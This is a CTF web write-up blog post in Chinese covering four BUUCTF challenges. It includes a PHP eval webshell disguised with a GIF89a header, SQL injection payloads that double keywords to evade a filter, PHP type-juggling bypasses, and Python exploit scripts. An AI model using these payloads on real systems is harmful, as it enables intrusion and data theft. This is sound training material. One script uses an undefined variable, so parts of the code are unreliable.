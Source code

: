 ```yaml
---
title: web刷题记录
date: 2023-04-08 17:19:47
tags:
  - CTF
  - Web
categories: Web
keywords: CTF
description: 本文记录了作者在刷CTF的Web方向题目中面临的问题以及解决方案，包含了文件上传绕过、php弱类型、sql注入绕过等知识点。
top_img: https://pic.imgdb.cn/item/647dcd821ddac507ccf5ba20.jpg
cover: https://pic.imgdb.cn/item/647dcd821ddac507ccf5ba20.jpg
# password: xdxdsqyc15511551
# message: 暂未完成，仍在施工
---
```



## [极客大挑战 2019] Upload 解题思路

1. `MIME` 绕过；修改 `content-type` 类型

2. 文件后缀检测；修改后缀名 `.phtml`

3. `<?` 检测绕过： js + php 模式；

``` html
<script language='php'>@eval($_POST['peony']);</script>
```

4. 文件头检测：添加 `GIF89a`

``` html
GIF89a <script language='php'>@eval($_POST['peony']);</script>
```

5. 确定文件上传位置：`/upload/x.phtml`

成功。

## [极客大挑战 2019] BuyFlag 解题思路

1. 发现注释中的提示：

``` html
<!--
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
-->
```

![提示](https://pic.imgdb.cn/item/647c13a7f024cca173274a7a.png)

2. 使用 POST 方法提交参数 `money=100000000` 和 `password=404%00`
3. 根据提示修改 `cookie` ，将 `Cookie: user=0` 改为 `Cookie: user=1`，提交后发现长度被限制：

![反馈](https://pic.imgdb.cn/item/647c13a8f024cca173274b77.png)
4. 绕过方式：改为科学计数法：`money=1e8`。

``` POST
POST /pay.php HTTP/1.1
Host: d8194abc-64ad-48a7-8358-3df0649572fd.node4.buuoj.cn:81
Content-Length: 25
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://d8194abc-64ad-48a7-8358-3df0649572fd.node4.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://d8194abc-64ad-48a7-8358-3df0649572fd.node4.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh;q=0.8,zh-CN;q=0.7
Cookie: user=1
Connection: close

money=1e8&password=404%20
```

下面是 EXP ：

``` python
import httpx
import re

HOST = "http://d8194abc-64ad-48a7-8358-3df0649572fd.node4.buuoj.cn:81"
URL = f'{HOST}/pay.php'
DATA = {"money": "1e9", "password": "404 "}
COOKIES = {"user": "1"}
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36",
           "Referer": f"{HOST}/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh;q=0.8,zh-CN;q=0.7"}


res = httpx.post(URL, data=DATA, cookies=COOKIES, headers=headers, timeout=5)
assert res.status_code == 200
# print(res.text+"\n")

pattern = r"flag\{.*?\}"
match = re.search(pattern, res.text) 
if match: 
    print(match.group()) 
else: 
    print("No flag found.")
```

## [极客大挑战 2019] BabySQL 解题思路

1. 将`select`、`union`、`or`、`and`、`infomation`、`where`等关键字替换为空，双写绕过即可。

``` sql
%27 || sleep(1) --+
select 1,2,3 --+
select database() --+
select group_concat(table_name) from information_schema.tables where table_schema=database() --+
select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name= b4bsql --+
```

下面是 exp ：

``` python
import httpx
import re

HOST = "http://a37633c3-5c3b-4677-82e1-2270c6e28c7d.node4.buuoj.cn:81"
EVILCODE = '%27%20uunionnion%20sselectelect%201,2,group_concat(passwoorrd)ffromrom%20b4bsql%23'
URL = f'{HOST}/check.php'

params = {'username': 'admin', 'password': EVILCODE}
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36",
           "Referer": f"{HOST}/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh;q=0.8,zh-CN;q=0.7"}

res = httpx.get(URL, params=params, headers=headers, timeout=5)
assert res.status_code == 200
# print(res.text+"\n")

pattern = r"flag\{.*?\}"
match = re.search(pattern, res.text)
if match:
    print(match.group())
else:
    print("No flag found.")
```

## [ACTF2020 新生赛] BackupFile 解题思路

1. 扫文件目录，工具很多，找到 `index.php.bak` 即可。
2. 根据 `index.php.bak` 中的注释提示:

``` php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }}
else {
    echo "Try to find out source file!";
}
?>
```

代码逻辑如下：

- 首先，它包含了一个叫做 `flag.php` 的文件，这个文件可能定义了一个变量 `$flag` ，用来存储一些敏感信息。
- 然后，它检查是否有一个名为 `key` 的 GET 参数传递给它。如果没有，它就输出"Try to find out source file!"。
- 如果有，它就把这个参数赋值给一个变量 `$key` ，并且使用 `is_numeric()` 函数检查这个变量是否是一个数字或者一个数字字符串。如果不是，它就退出并输出"Just num!"。
- 如果是，它就使用 `intval()` 函数把这个变量转换成一个整数，并且和一个字符串 `$str` 进行**弱类型比较**。如果相等，它就输出 `$flag` 的值。

因此，只需要请求 `http://url/?key=123` 即可获取 flag 。

{% hideToggle 什么是弱类型比较,orange, %}
根据搜索结果，PHP是一种弱类型的语言，这意味着它在比较变量时会进行隐式的类型转换¹²。PHP中有两种比较运算符：`==` 和 `===`。它们的区别是 `==` 会在比较之前将变量转换成相同的类型，而 `===` 会同时比较变量的类型和值。因此，使用 `==` 进行比较时可能会出现一些意想不到的结果，比如：

```php
<?php
$a = "0e123"; // 字符串
$b = 0; // 整数
if ($a == $b) {
    echo "true"; // 这里会输出true，因为字符串"0e123"被转换成了浮点数0.0
} else {
    echo "false";
}
?>
```

要避免这种弱类型比较的问题，可以使用 `===` 进行严格比较，或者使用一些函数来检查变量的类型，比如 `is_numeric()` , `is_int()` , `is_string()`等。
{% endhideToggle %}

EXP 如下：

``` python
import httpx
import re

URL = "http://eac04754-4cdd-4807-b34a-bfa86186533e.node4.buuoj.cn:81"

params = {'key': '123'}
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36",
           "Referer": f"{HOST}/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh;q=0.8,zh-CN;q=0.7"}

res = httpx.get(URL, params=params, headers=headers, timeout=5)
assert res.status_code == 200
# print(res.text+"\n")

pattern = r"flag\{.*?\}"
match = re.search(pattern, res.text)
if match:
    print(match.group())
else:
    print("No flag found.")
```
